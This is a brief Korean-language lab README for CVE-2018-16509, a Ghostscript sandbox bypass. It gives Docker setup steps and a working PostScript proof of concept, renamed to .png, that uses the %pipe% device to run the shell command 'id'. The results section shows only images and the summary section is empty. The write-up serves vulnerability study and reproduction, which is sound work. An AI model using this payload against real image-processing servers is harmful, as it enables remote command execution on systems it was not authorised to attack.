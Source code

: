 # CVE-2018-16509

**Contributors**

[정기현](https://github.com/jkh011120)

## 요약

CVE-2018-16509는 Postscript 및 PDF를 처리하는 Ghostscript를 우회하여 사용자가 의도치 않은 행위를 하게 합니다. 즉, 파일 확장자로 우회하여 공격 시도가 가능합니다.

## 환경 구성 및 실행

`docker-compose up -d` 커맨드를 입력하여 테스트 환경을 실행합니다 (GhostScript 9.23 및 ImageMagick 7.0.8 버전을 사용합니다).

## poc.ps -> poc.png
Postscript로 코드를 만든 후 확장자를 png로 변경합니다.

```
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%id > /tmp/success && cat /tmp/success) currentdevice putdeviceprops
```

###결과
![](1.png)

![](2.png)

![](3.png)

![](4.png)

<br>
###정리

